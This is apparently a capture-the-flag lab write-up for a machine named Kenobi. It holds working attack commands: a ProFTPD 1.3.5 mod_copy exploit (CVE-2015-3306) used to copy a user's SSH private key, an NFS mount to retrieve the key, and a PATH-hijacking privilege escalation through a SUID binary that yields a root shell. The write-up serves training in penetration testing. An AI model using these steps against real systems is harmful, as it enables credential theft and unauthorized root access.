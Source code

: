 > exploit FTP, SUID, using ssh to gain access

# Ports

* **80** : Apache server
* **21** : ProFTPD server 1.3.5
* **22** : SSH
* **111** : RPC bind running, points to nfs_acl, nlockmgr, mountd
* **139, 445** : Samba server running. 
### Port 80, 21, 22, 111 are used for exploiting

# 80
1. `gobuster` didn't give useful results
2. Homepage didn't contain any useful info, so did the admin.html from the robots.txt file.

# 21
1. ProFTPD server 1.3.5 is vulnerable to rce. [CVE-2015-3306](https://www.cvedetails.com/cve/CVE-2015-3306/).
2. This vulnerability allows us to copy files inside the target file sytem from one location to another within the filesystem. This uses `SITE CPFR` and `SITE CPTO` for copying and pasting respectively
3. We try the msf module `unix/ftp/proftpd_modcopy_exec` and realize that /var/www/html path is not writable by this command. So we can't try an rce.

# 139,445 
1. samba version 4.3.11. 
2. `smbclient -L \\\\10.10.220.111\\` we see a share named 'anonymous'. 
3. `smbclient \\\\10.10.220.111\\anonymous` and we see a file named access.log

# 111
1. Rpc bind connects us to the nfs_acl service running on port 2049. Network file share can be used to get info about the system. We mount the share using mount command.
2. `showmount -e 10.10.220.111`  to list the mount folder available. It lists that folders under /var/* is availble for mounting.
3. `nmap sA --script=nfs-ls,nfs-statfs -p 111 10.10.220.111` shows us the available folders and its permissions.

# EXPLOITATION

From the `access.log` obtained from the samba share we see information about a user `kenobi` and their ssh private key location. `/home/kenobi/.ssh/id_rsa`.
Using the ProFTPD's vulnerable CPFR and CPTO commands we can copy this `id_rsa` file to /var location which can be accessible via nfs on our machine.

## netcat for accessing ftp
1. `nc 10.10.220.111 21`
2. `SITE CPFR /home/kenobi/.ssh/id_rsa`
3. `SITE CPTO /var/tmp/id_rsa`
4. We can now access the file by mounting the /var folder to our machine

`sudo mkdir /mnt/kenobi` followed by `mount 10.10.220.111:/var /mnt/kenobi`
We make `kenobi` directory to mount the files and use the `mount` command to mount the nfs folder.

## ssh
1. `ssh -i /mnt/kenobi/tmp/id_rsa kenobi@10.10.220.111`
2. Logged in.  

# Actions in the low privilege shell
1. Running `find / -perm -u=s -type f 2>/dev/null` , we see that suid bit is set for `menu`, which is not a standard binary found in linux setups.
2. Running the `menu` binary shows that it gives information for kernel, ifconfig and status.
3. Running `strings menu` shows us the underlying commands the binary uses to fetch the info. It uses `uname -r`, `ifonfig` etc and they are not invoked using their absolute paths.
4. So we can create a fake script spawns a shell under root user by naming it either `uname` or `ifconfig` and adding it to the $PATH variable.
5. In /tmp folder we execute `echo "/bin/sh" > ifconfig`, `chmod 777 ifconfig` to create the fake `ifconfig` script and give executable permission to all users.
6. We add /tmp to $PATH by running `export PATH=/tmp: $PATH` (Note: there is no space between : and $ ).
7. Finally run the `menu` binary.

6. We are now root.